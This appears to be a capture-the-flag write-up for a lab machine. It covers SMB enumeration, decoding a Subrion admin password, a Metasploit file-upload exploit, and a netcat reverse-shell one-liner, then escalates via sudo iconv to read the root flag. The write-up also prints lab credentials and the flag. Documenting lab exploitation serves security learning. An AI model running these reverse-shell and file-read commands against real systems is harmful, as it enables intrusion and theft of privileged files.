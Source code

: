 ```yaml
---
aliases: []
sticker: emoji//1f469-200d-1f4bb
---
```

# ENUMERATION
---



## OPEN PORTS
---


| PORT | SERVICE |
| :--- | :------ |
| 22   | SSH     |
| 80   | HTTP    |
| 139  | SMB     |
| 445  | SMB     |



# RECONNAISSANCE
---

We got `smb` enabled, let's try anonymous login:

![](Pasted%20image%2020250411151007.png)

There we go, we got an interesting share, let's check the contents inside of it:

![](Pasted%20image%2020250411151101.png)

We got something called `enter.txt`, let's read the contents:

```
cat enter.txt

GOALS
=====
1)Make fake popup and host it online on Digital Ocean server
2)Fix subrion site, /subrion doesn't work, edit from panel
3)Edit wordpress website

IMP
===
Subrion creds
|->admin:7sKvntXdPEJaxazce9PXi24zaFrLiKWCk [cooked with magical formula]
Wordpress creds
|->
```

We got credentials for the WordPress site, let's check the website:


![](Pasted%20image%2020250411151659.png)

We can fuzz and we find this:

```
ffuf -w /usr/share/seclists/Discovery/Web-Content/directory-list-2.3-small.txt:FUZZ -u "http://10.10.224.191/FUZZ" -ic -c -t 200

        /'___\  /'___\           /'___\
       /\ \__/ /\ \__/  __  __  /\ \__/
       \ \ ,__\\ \ ,__\/\ \/\ \ \ \ ,__\
        \ \ \_/ \ \ \_/\ \ \_\ \ \ \ \_/
         \ \_\   \ \_\  \ \____/  \ \_\
          \/_/    \/_/   \/___/    \/_/

       v2.1.0-dev
________________________________________________

 :: Method           : GET
 :: URL              : http://10.10.224.191/FUZZ
 :: Wordlist         : FUZZ: /usr/share/seclists/Discovery/Web-Content/directory-list-2.3-small.txt
 :: Follow redirects : false
 :: Calibration      : false
 :: Timeout          : 10
 :: Threads          : 200
 :: Matcher          : Response status: 200-299,301,302,307,401,403,405,500
________________________________________________

wordpress               [Status: 301, Size: 318, Words: 20, Lines: 10, Duration: 165ms]
test                    [Status: 301, Size: 313, Words: 20, Lines: 10, Duration: 161ms]
```


If we check the `test` directory, we can see this:

![](Pasted%20image%2020250411151834.png)


In the `wordpress` directory, we can go to `wp-login.php` and test the credentials we got earlier:

```
admin:7sKvntXdPEJaxazce9PXi24zaFrLiKWCk
```


![](Pasted%20image%2020250411152301.png)

They don't work, seems like they are not the credentials for WordPress, other stuff we are missing is the `/subrion` directory, if we try accessing it we get this:


![](Pasted%20image%2020250411152549.png)

There's a redirection, if we follow it:

![](Pasted%20image%2020250411152610.png)

It changes the host, seems weird, what if we try changing it back to the real host:

![](Pasted%20image%2020250411152727.png)

No response still, seems like we are trying to access an invalid resource, maybe `/subrion/subrion` does not exist, we can try reading `robots.txt` and check if it works, let's change it in the base request:

![](Pasted%20image%2020250411153009.png)

There we go, it does exist, we got some stuff:

```
User-agent: *
Disallow: /backup/
Disallow: /cron/?
Disallow: /front/
Disallow: /install/
Disallow: /panel/
Disallow: /tmp/
Disallow: /updates/
```


If we remember the message from `smb`, we can go inside of `panel` and edit the `/subrion` directory, which could mean we can use these credentials inside of the panel:

![](Pasted%20image%2020250411153208.png)


```
admin:7sKvntXdPEJaxazce9PXi24zaFrLiKWCk
```

But wait, there is something that needs to be done with these still, let's proceed to exploitation.



# EXPLOITATION
---

```
Subrion creds

admin:7sKvntXdPEJaxazce9PXi24zaFrLiKWCk [cooked with magical formula]

```


Let's use CyberChef with the `magic` operation, we can see the following:



![](Pasted%20image%2020250411153349.png)

There we go, we got the real password:

```
admin:Scam2021
```


![](Pasted%20image%2020250411153512.png)

There we go, we got inside of the panel, let's check for an exploit regarding this version of `subrion`, we are dealing with `subrion 4.2.1`:

![](Pasted%20image%2020250411153614.png)

We got `Arbitrary File Upload`, the module is on `metasploit` so we can use it to ensure it works:

![](Pasted%20image%2020250411154612.png)

There we go, we got the shell, we can migrate to `netcat` 

```
rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|sh -i 2>&1|nc IP 9001 >/tmp/f
```


![](Pasted%20image%2020250411154740.png)

There we go, we got our netcat shell, let's proceed with privilege escalation.



# PRIVILEGE ESCALATION
---

Let's stabilize our shell:

```
python3 -c 'import pty;pty.spawn("/bin/bash")'
/usr/bin/script -qc /bin/bash /dev/null
CTRL + Z
stty raw -echo; fg
reset xterm
export TERM=xterm
export BASH=bash
```

![](Pasted%20image%2020250411154905.png)

If we use linpeas, we can see this:

![](Pasted%20image%2020250411155553.png)

![](Pasted%20image%2020250411155606.png)


```
scamsite:ImAScammerLOL!123!
```

Let's use this credentials in ssh:

![](Pasted%20image%2020250411155627.png)

Let's check our sudo privileges:

```
scamsite@TechSupport:~$ sudo -l
Matching Defaults entries for scamsite on TechSupport:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User scamsite may run the following commands on TechSupport:
    (ALL) NOPASSWD: /usr/bin/iconv
```

We can run `iconv`, let's check it on GTFOBins:

![](Pasted%20image%2020250411155740.png)

Nice, let's read `root.txt`:


```
sudo /usr/bin/iconv -f 8859_1 -t 8859_1 /root/root.txt
```

![](Pasted%20image%2020250411160756.png)
```
scamsite@TechSupport:~$ sudo /usr/bin/iconv -f 8859_1 -t 8859_1 /root/root.txt
851b8233a8c09400ec30651bd1529bf1ed02790b
```

![](Pasted%20image%2020250411160820.png)

